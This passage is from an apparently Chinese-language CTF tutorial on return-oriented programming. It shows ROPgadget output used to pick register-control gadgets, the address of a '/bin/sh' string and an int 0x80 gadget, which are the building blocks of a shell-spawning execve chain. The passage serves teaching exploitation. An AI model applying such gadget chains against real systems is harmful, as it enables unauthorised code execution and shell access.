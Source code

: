 可以看到有上述几个都可以控制 eax，可以选取第二个来作为 gadgets。

类似的，我们可以得到控制其它寄存器的 gadgets

```shell
$ ROPgadget --binary rop  --only 'pop|ret' | grep 'ebx'
0x0809dde2 : pop ds ; pop ebx ; pop esi ; pop edi ; ret
0x0809ddda : pop eax ; pop ebx ; pop esi ; pop edi ; ret
0x0805b6ed : pop ebp ; pop ebx ; pop esi ; pop edi ; ret
0x0809e1d4 : pop ebx ; pop ebp ; pop esi ; pop edi ; ret
0x080be23f : pop ebx ; pop edi ; ret
0x0806eb69 : pop ebx ; pop edx ; ret
0x08092258 : pop ebx ; pop esi ; pop ebp ; ret
0x0804838b : pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x080a9a42 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 0x10
0x08096a26 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 0x14
0x08070d73 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 0xc
0x0805ae81 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 4
0x08049bfd : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 8
0x08048913 : pop ebx ; pop esi ; pop edi ; ret
0x08049a19 : pop ebx ; pop esi ; pop edi ; ret 4
0x08049a94 : pop ebx ; pop esi ; ret
0x080481c9 : pop ebx ; ret
0x080d7d3c : pop ebx ; ret 0x6f9
0x08099c87 : pop ebx ; ret 8
0x0806eb91 : pop ecx ; pop ebx ; ret
0x0806336b : pop edi ; pop esi ; pop ebx ; ret
0x0806eb90 : pop edx ; pop ecx ; pop ebx ; ret
0x0809ddd9 : pop es ; pop eax ; pop ebx ; pop esi ; pop edi ; ret
0x0806eb68 : pop esi ; pop ebx ; pop edx ; ret
0x0805c820 : pop esi ; pop ebx ; ret
0x08050256 : pop esp ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x0807b6ed : pop ss ; pop ebx ; ret
```

这里可以选择：

```text
0x0806eb90 : pop edx ; pop ecx ; pop ebx ; ret
```

这个可以直接控制其它三个寄存器。

此外，我们需要获得 /bin/sh 字符串对应的地址。

```shell
$ ROPgadget --binary rop  --string '/bin/sh' 
Strings information
============================================================
0x080be408 : /bin/sh
```

可以找到对应的地址，此外，还有 int 0x80 的地址，如下

```text
$ ROPgadget --binary rop  --only 'int'                 
Gadgets information
============================================================
0x08049421 : int 0x80
0x080938fe : int 0xbb
0x080869b5 : int 0xf6
0x0807b4d4 : int 0xfc

Unique gadgets found: 4
```
